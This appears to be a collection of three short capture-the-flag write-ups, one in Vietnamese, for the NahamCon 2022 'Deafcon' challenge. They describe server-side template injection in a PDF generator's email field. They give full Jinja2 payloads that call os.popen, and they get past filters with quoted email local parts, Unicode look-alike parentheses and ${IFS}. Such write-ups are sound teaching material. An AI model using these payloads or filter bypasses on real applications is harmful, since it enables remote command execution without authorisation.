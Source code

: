 # nahamcon CTF - Deafcon

## Write up 1
App have genarate letter pdf function that vulnerable to SSTI on email field. After quick fuzzing i detect that email must have '@' and app filter (, ) and space char
Then i use UTF8 encoding to bypass (, ) and {IFS} to bypass space in command.
test%40{{config.__class__.__init__.__globals__.os.popen%EF%BC%88'cat${IFS}flag.txt'%EF%BC%89.read%EF%BC%88%EF%BC%89}}

https://github.com/longtranf/ctf-writeups/tree/main/Nahamcon2022/DeafCon

## Write up 2
Name: sam

Email: "{{request.application['__globals__'].__builtins__.__import__﹙'os'﹚.popen﹙'cat flag.txt'﹚.read﹙﹚}}"@m.edu

Here the symbols that look like ( and ) are actually high-unicode characters: SMALL LEFT/RIGHT PARENTHESIS 0xFE59 and 0xFE5A

These get past the filter but must "turn into" regular parenthesis when the expression is evaluated. I'm not sure why.

The email syntax checker allows certain characters ONLY if the portion to the left of the @ is surrounded by double-quotes.

## Note nhẹ

### Quick Review
1. App cho 2 phần user input là name và email, sau khi submit website trả về trang pdf chứa name và email vừa cung cấp.
2. Test param name thì bị filter chỉ whitelist regex /a-zA-Z0-9/
3. Param email có email parser ở backed, ví dụ như `a<img src="//a.com">@gmail.com` sẽ không đúng format và trả về lỗi không tuân thủ `RFC5322`. Ngoài ra nó filter ngoặc tròn '(' và ')'

### Exploit
1. Để bypass email parser: `"a<we're good>"@a.com`, phần username được bọc bằng dấu ngoặc kép
2. Thử tiếp: `"a{{7*'7'}}"@a.com` được `7777777` tức dính lỗi SSTI
3. Ta dùng unicode bypass filter '(' và ')' được payload sau:

```
Email: "{{request.application['__globals__'].__builtins__.__import__﹙'os'﹚.popen﹙'cat flag.txt'﹚.read﹙﹚}}"@a.com
```

 unicode: https://www.fileformat.info/search/google.htm?q=PARENTHESIS&domains=www.fileformat.info&sitesearch=www.fileformat.info&client=pub-6975096118196151&forid=1&channel=1657057343&ie=UTF-8&oe=UTF-8&cof=GALT%3A%23008000%3BGL%3A1%3BDIV%3A%23336699%3BVLC%3A663399%3BAH%3Acenter%3BBGC%3AFFFFFF%3BLBGC%3A336699%3BALC%3A0000FF%3BLC%3A0000FF%3BT%3A000000%3BGFNT%3A0000FF%3BGIMP%3A0000FF%3BFORID%3A11&hl=en
